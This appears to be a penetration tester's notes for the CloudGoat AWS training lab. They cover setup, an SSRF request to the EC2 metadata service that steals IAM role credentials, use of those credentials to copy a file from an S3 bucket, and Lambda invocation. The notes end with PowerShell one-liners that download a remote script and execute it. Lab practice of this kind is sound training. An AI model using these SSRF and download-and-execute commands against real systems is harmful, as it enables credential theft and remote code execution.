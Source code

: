 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Cloud Goat:
./cloudgoat.py help
./cloudgoat.py config profile # 
./cloudgoat.py config whitelist # whitelist your own IP for testing
./cloudgoat.py list
./cloudgoat.py create {scenario}
./cloudgoat.py destroy {scenario} | all


# aws cli
curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip"
unzip awscliv2.zip
sudo ./aws/install

https://docs.aws.amazon.com/cli/latest/userguide/install-cliv2-linux.html

aws configure --profile cloudgoat-user-aaa

AWS Profiles located:
`~/.aws/credentials`
https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-profiles.html
https://aws.amazon.com/premiumsupport/knowledge-center/authenticate-mfa-cli/
https://www.google.com/search?channel=fs&client=ubuntu&q=aws_session_token # Name session token in config as "aws_session_token" if needed
https://docs.aws.amazon.com/cli/latest/reference/ec2/describe-regions.html # Region names for config, e.g. "us-east-1"

```
aws ec2 describe-regions \
    --all-regions \
    --query "Regions[].{Name:RegionName}" \
    --output text
```

# pacu


SSRF:
https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/ec2_ssrf/cheat_sheet_solus.md
http://ec2-54-172-233-58.compute-1.amazonaws.com/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/cg-ec2-role-cgidyho54df3yq

http://ec2-54-172-233-58.compute-1.amazonaws.com/?url=http://169.254.169.254/latest/meta-data/ --> keep appending folders according to what's returned. /iam/security-credentials/ can get you creds.

```
aws s3 ls --profile ec2 # see what s3 buckets are available
```
```
aws s3 ls --profile ec2 s3://cg-secret-s3-bucket-cgidyho54df3yq #list folder contents. identify admin-user.txt file.
```
```
aws s3 cp --profile ec2 s3://cg-secret-s3-bucket-cgidyho54df3yq/admin-user.txt ./ # copy admin-user.txt file out of the s3 bucket
```
```
cat admin-user.txt
```

====

```
aws configure --profile cgadmin
```
```
aws lambda list-functions --profile <profile>
```

```
aws lambda invoke --function-name cg-lambda-cgidyho54df3yq ./out.txt; cat out.txt
```

```
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"
```

```
powershell.exe Invoke-Command -ScriptBlock {$var = New-Object net.webclient; $a = $var.downloadstring('<INFRASTRUCTURE>.html'); Set-Content -Path C:\Users\Public\output.txt -value $a}
```